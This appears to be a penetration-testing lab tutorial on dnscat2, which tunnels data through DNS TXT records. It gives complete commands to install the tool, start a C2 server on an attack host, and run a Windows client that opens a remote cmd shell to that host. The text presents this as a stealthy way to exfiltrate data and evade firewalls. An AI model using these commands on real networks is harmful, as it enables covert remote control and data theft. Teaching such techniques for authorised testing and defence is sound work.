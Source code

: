 [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.
#### Setup
```shell
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```
#### Start dnscat2 server
```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
#### Establish tunnel (Windows)
```powershell
Import-Module .\dnscat2.ps1

Start-Dnscat2 -DNSserver 10.10.14.189 -Domain inlanefreight.local -PreSharedSecret cb4130d505502d75a80da8a1008257dc -Exec cmd 
```
#### Interact
```shell
dnscat2> ?
dnscat2> window -i 1
```